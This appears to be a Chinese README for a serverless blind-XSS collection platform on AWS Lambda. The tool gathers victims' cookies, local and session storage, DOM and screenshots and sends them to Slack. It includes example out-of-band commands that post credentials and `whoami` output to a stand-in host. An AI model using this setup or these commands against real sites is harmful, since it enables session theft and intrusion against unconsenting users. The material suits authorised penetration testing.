




# Ass
The AWS Lambda Serverless Blind XSS App

AWS Lambda很容易被Dow(Denial of Wallet)攻击，比如发起大量http请求消耗资源，导致信用卡暴增。所以建议在API Gateway的使用计划新增接口请求限制。

利用VPS配置XSS平台太麻烦了，如果利用AWS的Lambda那不就是一个域名的事情么？剩下的环境配置、HTTPS证书、隐私性、VPS续费都不用管了，
所以根据[xless](https://github.com/mazen160/xless)重写了Lambda平台的XSS，利用slack机器人通知的方式代替邮件或者短信

XSS有四个URL可用，部署的时候建议修改不同的地址：
- `/msg` [OOB场景1](#OOB场景1)
- `/404` [OOB场景2](#OOB场景2)
- `/example` 查看js插入例子


## :warning: 准备工作
- AWS账号
- Slack账号，包括一个slack App的通知机器人和上传图片需要的Auth Token
- 自定义域名(可选)

## :rocket: 部署
#### Slack 
[创建Slack的App](https://api.slack.com/apps),创建之后点进APP获取webhook和Token, webhook使用来通知机器人，Token可以使用`xoxb`开头的OAuth token，用于上传图片：



#### AWS Lambda
##### 部署Lambda
修改`app.py`的 `Token,Bot`为你自己的信息:

```
virtualenv venv -p python3
. venv/bin/activate
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements
sls deploy #部署到aws
sls wsgi serve #本地测试
``` 
##### 绑定自定义域名
首先在域名提供商更改ns的地址，使用Route 53服务管理域名，设置自定义域名步骤：[how-to-edge-optimized-custom-domain-name](https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-edge-optimized-custom-domain-name.html)，总结来说如下：
1. 在API Gateway增加自定义域名，选择 Edge-optimized，在API映射选择创建好的lambda函数
2. 为域名配置ACM证书
3. 配置好之后得到一个`*.cloudfront.net`格式的域名
4. 在Route 53设置cname别名，cloudflare家不支持

## :incoming_envelope: 收集的信息

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot





## :satellite: Out-of-Band (OOB)
#### OOB场景1
在网站插入JS获取敏感信息传输到远程服务器，注意使用JSON格式：
```
http https://example.com/msg "UserName=admin" "Password=admin"  -v
```


#### OOB场景2
命令执行外带到远程http服务：
```
http https://example.com/404/`whoami`
```


### TODO
* 每次需要改JS的时候需要重新部署Lambda
